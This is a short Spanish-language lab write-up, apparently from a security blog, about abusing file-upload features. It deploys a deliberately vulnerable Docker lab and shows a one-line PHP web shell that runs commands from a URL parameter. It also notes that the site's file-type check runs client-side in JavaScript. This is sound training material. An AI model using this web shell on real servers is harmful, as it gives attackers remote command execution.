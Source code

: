 ```yaml
---
title: "Abuso de subidas de archivos"
author: Tuch0
date: 2023-09-17
categories: 
  - Vectores-de-Ataque
tags: 
  - fileUpload
  - abussing
  - metadatos
  - magickNumbers
  - htaccess
image:
    path: ../../assets/Miniaturas/VectoresDeAtaque/abuso-subida-archivos.webp
    width: 800
    height: 500
---
```



#### Desplegamos el laboratório

```bash
# Clonamos el repositorio
git clone https://github.com/moeinfatehi/file_upload_vulnerability_scenarios

# Entramos
cd file_upload_vulnerability_scenarios

# Desplegamos el laboratorio
docker-compose up -d
```

#### Subida de archivos sin sanitización

```php
<?php
	system($_GET['cmd']);
?>
```

![](../../assets/VectoresDeAtaque/Abuso-de-subidas-de-archivos/1.jpg)

![](../../assets/VectoresDeAtaque/Abuso-de-subidas-de-archivos/2.jpg)

#### Con extensiones permitidas

![](../../assets/VectoresDeAtaque/Abuso-de-subidas-de-archivos/3.jpg)

![](../../assets/VectoresDeAtaque/Abuso-de-subidas-de-archivos/4.jpg)

> Como vemos se esta aplicando un codigo en JS que lo que hace es validar el tipo de archivo que nosotros subimos , pero a el parecer lo estamos haceindo nosotros desde la web:
{: .prompt-info }
